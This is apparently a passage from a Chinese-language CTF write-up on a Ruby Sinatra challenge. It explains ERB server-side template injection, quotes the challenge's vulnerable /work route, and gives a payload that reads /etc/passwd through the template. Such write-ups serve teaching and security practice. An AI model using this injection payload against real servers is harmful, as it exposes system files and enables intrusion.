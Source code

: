 ```javascript
def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

### 第一种方法

查一下sinatra是ruby的一个Web框架，erb是ruby自带的模板渲染包，如果输入可控，它会导致模板注入。

```ruby
require 'erb'

template = "text to be generated: <%= x %>"
erb_object = ERB.new(template)
x = 7*7
puts erb_object.result(binding())
```

枚举当前类的可用方法

```ruby
require 'erb'

template = "text to be generated: <%= x %>"
erb_object = ERB.new(template)
x = self.methods
puts erb_object.result(binding())
```

Ruby ERB模板注入读取文件的payload：`<%= File.open('/etc/passwd').read %>`

看给的代码，在访问work时，有两个判断

一个是传入`SECRET`参数，`params[:SECRET].nil?`判断是否传入`SECRET`参数，然后匹配`SECRET`中的小写字母和数字并返回，再用`#{}`获取这个变量，最后和`ENV["SECRET"]`进行匹配。

> `#{var}`在Ruby中进行变量替换。例如
>
> ```
> name="Jack"
> puts "His name i #{name}." 
> ```

> match是进行匹配。例如
>
> ```
> name = "peri0dLL".match(/[0-9a-z]+/)
> puts "His name i #{name}." 
> ```

另外是传入do和name参数，满足`name[0:7] is working==do`，然后使用ERB渲染`name`

```ruby
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
```